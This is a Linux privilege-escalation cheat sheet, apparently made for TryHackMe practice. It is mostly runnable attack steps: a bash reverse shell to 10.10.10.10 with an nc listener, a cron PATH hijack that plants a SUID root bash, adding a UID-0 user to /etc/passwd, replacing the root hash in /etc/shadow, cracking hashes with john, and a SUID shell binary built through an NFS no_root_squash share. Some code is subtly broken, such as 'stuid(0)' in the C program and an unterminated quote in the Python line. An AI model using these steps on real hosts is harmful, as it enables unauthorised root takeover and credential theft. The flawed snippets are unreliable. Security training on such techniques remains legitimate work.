 # Privilege Escalation for Linux (Cheat-Sheet)

> ## **Sudo - Shell Escape Sequences**
>
> command `sudo -l`  
> Visit [GTFOBins](https://gtfobins.github.io/) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

> ## **SUID (Set-user Identification)**
>
> _command_ `find / -type f -perm -04000 -ls 2>/dev/null`  
> or  
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` will list files that have SUID or SGID bits set.  
> Visit Search result: [GTFOBins](https://gtfobins.github.io/)  
> try read the `/etc/shadow` file or adding our user to `/etc/passwd`
> add a new user that has root privileges.  
> We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux: _command_ `openssl passwd -1 -salt foo` Result: _$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B._  
> We will then add this password with a username to the `/etc/passwd` file: _hacker:$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B.:0:0:root:/root:/bin/bash_  
> Once our user is added we will need to switch to this user and hopefully should have root privileges.  
> **With _unshadow_ and _john_:**  
>  unshadow necesita los archivos _/etc/shadow_ and _/etc/passwd_  
>  create with result _shadow.txt_ and _passwd.txt_  
>  _command_ `unshadow passwd.txt shadow.txt > passwords`  
>  `john passwords` -> default brute force or `john --wordlist=diccionario.lst --rules password`

> ## **Capabilities**
>
> _command_ `getcap -r / 2>/dev/null`  
> Search [GTFOBins](https://gtfobins.github.io/) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

> ## **Cron Jobs - File Permissions**
>
> _command_ `cat /etc/crontab`  
> `locate overwrite.sh` or `locate backup.sh`  
> A similar situation where the "any.sh" script was deleted, but the cron job still exists.
> If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the _/etc/crontab_ file. In this case, we should be able to create a script named “any.sh” under our user’s home folder and it should be run by the cron job.  
> _modify or create script_

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6668 0>&1
```

> We will now run a listener on our attacking machine to receive the incoming connection:  
> _command_ `nc -nlvp 6668`

> ## **Cron Jobs - PATH Enviroment Variable**
>
> _command_ `cat /etc/crontab`  
> Note that the PATH variable starts with /home/user which is our user's home directory.  
> Create a file called overwrite.sh in your home directory with the following contents:  
> _modify script_

```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

> Make sure that the file is executable:  
> `chmod +x /home/user/overwrite.sh`  
> Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges: `/tmp/rootbash -p`

> ## **Weak File Permissions - Writable /etc/passwd**
>
> `ls -l /etc/passwd`  
> Generate a new password hash with a password of your choice:  
> `openssl passwd newpasswordhere`  
> Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").  
> Switch to the root user, using the new password.

> ## **Weak File Permissions - Writable /etc/shadow**
>
> `ls -l /etc/shadow`  
> Generate a new password hash with a password of your choice:  
> `mkpasswd -m sha-512 newpasswordhere`  
> Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.  
> Switch to the root user, using the new password.

> ## **NFS (Network File Sharing)**
>
> configuration is kept in the _/etc/exports_ file. This file is created during the NFS server installation and can usually be read by users.  
>  _command_ `cat /etc/exports`  
>  The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
>  We will start by enumerating mountable shares from our attacking machine: `showmount -e 10.10.10.10`  
>  We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable: `mkdir /tmp/backupsonattackermachine`  
>  `mount -o rw 10.10.10.10:/fileexport /tmp/backupsonattackermachine`  
>  As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job: `nano nfs.c`

```c
int main()
{ setgid(0);
  stuid(0);
  system("/bin/bash");
  return 0;
}
```

> Once we compile the code we will set the SUID bit: `gcc nfs.c -o nfs -w`  
>  `chmod +s nfs`  
>  `ls -l nfs`  
>  `./nfs`

> ## **Python**

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
```

Use these Rooms free TryHackMe for practice and learn

-   [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
-   [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)
